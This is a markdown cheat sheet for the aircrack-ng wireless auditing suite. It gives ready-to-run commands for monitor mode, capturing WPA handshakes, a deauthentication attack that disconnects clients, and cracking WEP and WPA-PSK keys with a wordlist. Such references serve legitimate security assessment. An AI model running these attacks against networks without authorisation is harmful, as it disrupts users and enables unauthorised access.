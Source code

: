 ```yaml
---
title: AIRCRACK-NG
summary: A complete suite of tools to assess WiFi network security.
description: A complete suite of tools to assess WiFi network security.
---
```


**[https://github.com/aircrack-ng/aircrack-ng](https://github.com/aircrack-ng/aircrack-ng)**

## AIRCRACK-NG Monitor Mode


 > 
 > **<font color=red>airmon-ng check kill</font>**</br>
 > Kill processes that interfere with monitor mode.

 > 
 > **<font color=red>airmon-ng start</font> wlan0**</br>
 > Start monitor mode on wlan0 interface.

## AIRCRACK-NG Capture


 > 
 > **<font color=red>airodump-ng </font>wlan0mon**</br>
 > Listen for APs around.

 > 
 > **<font color=red>airodump-ng --channel</font> 6 <font color=red>--bssid</font> AP:MAC <font color=red>-w capture</font> wlan0mon**</br>
 > Capture traffic from an AP. Need to wait for WPA handshake in the top right.
 > Can use Deauth attack to speed up the process.

## AIRCRACK-NG Deauth Attack


 > 
 > **<font color=red>aireplay-ng -0 1 -a </font>AP:MAC <font color=red>-c</font> CLIENT:MAC wlan0mon**</br>
 > Deauth attack (kick the client off the AP really quick).

 > 
 > **<font color=red>-0</font> 1**</br>
 > Deauth, one time.
 > 
 > **<font color=red>-c</font>**</br>
 > Client to deauthenticate.

## AIRCRACK-NG Crack WEP, WPA-PSK


 > 
 > **<font color=red>aircrack-ng -a </font>WEP myCapture.cap**</br>
 > **<font color=red>aircrack-ng -w </font>wordlist.txt <font color=red>-b</font> AP:MAC myCaptureFromAirodump**</br>

 > 
 > **<font color=red>-a</font> WEP**</br>
 > Attack Mode: WEP (Need  > 5000 IV) or WPA-PSK.
 > 
 > **<font color=red>-e</font> mySSID**</br>
 > Specifies SSID.
 > 
 > **<font color=red>-n </font>64**</br>
 > Size of the key (64, 128, 152, 256, 512).
